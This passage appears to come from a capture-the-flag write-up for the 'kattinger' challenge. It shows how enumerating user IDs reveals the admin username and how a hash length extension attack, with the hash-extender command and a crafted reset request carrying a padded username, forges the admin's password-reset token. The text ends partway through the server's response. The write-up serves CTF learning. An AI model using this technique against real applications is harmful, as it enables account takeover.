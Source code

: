 A hash length extension attack seems possible. Even if our input string changes (look at the repo linked above) only the last 8 chars are used, and we can control those.

Our last step is to hope that the admin username has length 8. Spoiler: that's exactly right!

So, let's find this admin username. This is quite straight-forward as route `/users/:id` view reveals the username and whether that user is an admin.

```html:/app/views/users/show.html.erb
<% content_for :content do %>
  <% content_for :subcontent_1 do %>
    <div class="row ">
      <h4 class="card-title center-align black-text">Account information</h4>
    </div>
    <div class="row padded-lr-5">
      <label for="username" class="black-text">Username</label>
      <p class="black-text" name="username">
        <%= @account.username %>
      </p>
    </div>
    <div class="row padded-lr-5">
      <label for="admin" class="black-text">admin</label>
      <p class="black-text" name="admin">
        <%= @account.username === ENV['ADMIN_USER'] %>
      </p>
    </div>
    ⋮
```

The users IDs are incremental, so, after a quick scan we found the admin user at the id `76` with the username `4dm1n_54`.

Good, let's register a user `asdfff`, generate the reset_token calling `/reset` with both the admin username and ours, and let's perform this Hash Length Extension attack:

1) Get `asdfff` reset_token from the Account page: `6bf6afb6be14fdf510757661524d0e9017c6907f606ffb7cd593e9dd831eacf6`

2) extend it: (the length can be seen in the docker-compose.yaml)

```shell
~$ hash-extender -d asdfff -s 6bf6afb6be14fdf510757661524d0e9017c6907f606ffb7cd593e9dd831eacf6 -a 4dm1n_54 -f sha256 -l 32
Type: sha256
Secret length: 32
New signature: 612f6c80243651c32c1683145e3be84efe31a2338fda0ca11ce72b23f9b6834c
New string: 617364666666800000000000000000000000000000000000000000000000013034646d316e5f3534
```

3) Send a reset request for the admin user:

```http
POST /reset_submit HTTP/2
Host: kattinger.snakectf.org
Cookie: _kattinger_session=...
⋮
authenticity_token=...&user%5Busername%5D=%61%73%64%66%66%66%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%30%34%64%6d%31%6e%5f%35%34&user%5Breset_token%5D=612f6c80243651c32c1683145e3be84efe31a2338fda0ca11ce72b23f9b6834c&user%5Bpassword%5D=&commit=Reset+it+now


HTTP/2 410 Gone
Content-Type: text/html; charset=utf-8

<!DOCTYPE html>
<html>
    ⋱
    <div class="center">
```
